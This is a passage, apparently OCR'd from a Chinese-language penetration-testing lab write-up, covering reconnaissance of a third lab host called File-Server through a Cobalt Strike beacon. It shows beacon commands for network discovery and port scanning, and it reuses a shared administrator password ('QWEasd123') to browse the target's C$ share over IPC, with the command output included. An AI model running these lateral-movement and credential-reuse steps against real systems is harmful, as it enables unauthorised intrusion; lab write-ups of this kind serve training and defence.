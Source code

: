 查看规则 

```
netsh interface portproxy show all
```



# 第三台 File-Server

## 信息收集

在第二台主机 Tomcat-Web 的 cs beacon里做对 file-server 的信息搜集

1、网段信息

```beacon
beacon> shell ipconfig/all
```

发现两个网卡 ，而且不在域内

```
192.168.0.102
10.10.1.129
```

2、10.10.1.0/24 网段主机存活扫描

```beacon
beacon> portscan 10.10.1.0-10.10.1.255 1-1024,3389,5000-6000 arp 1024
```

发现目标 10.10.1.128 只有 445 端口开放，可能有两边主机（tomcat、file）防火墙有入站出站的拦截，且在域内：FBI

```
10.10.1.128:445 (platform: 500 version: 10.0 name: FILESERVER domain: FBI)
```

 3、ipc 空连接访问成功

为什么会成功呢？可能主机 tomcat-web 与主机 file-server 的 管理员用户的账号密码相同，即都为 administrator:QWEasd123

```beacon
beacon> shell dir \\10.10.1.128\c$\Users
[*] Tasked beacon to run: dir \\10.10.1.128\c$\Users
[+] host called home, sent: 57 bytes
[+] received output:
 驱动器 \\10.10.1.128\c$ 中的卷没有标签。
 卷的序列号是 6613-657B

 \\10.10.1.128\c$\Users 的目录

2020/11/04  22:11    <DIR>          .
2020/11/04  22:11    <DIR>          ..
2020/11/15  11:04    <DIR>          Administrator
2020/11/07  09:15    <DIR>          fileserver
2016/12/14  19:13    <DIR>          Public
```

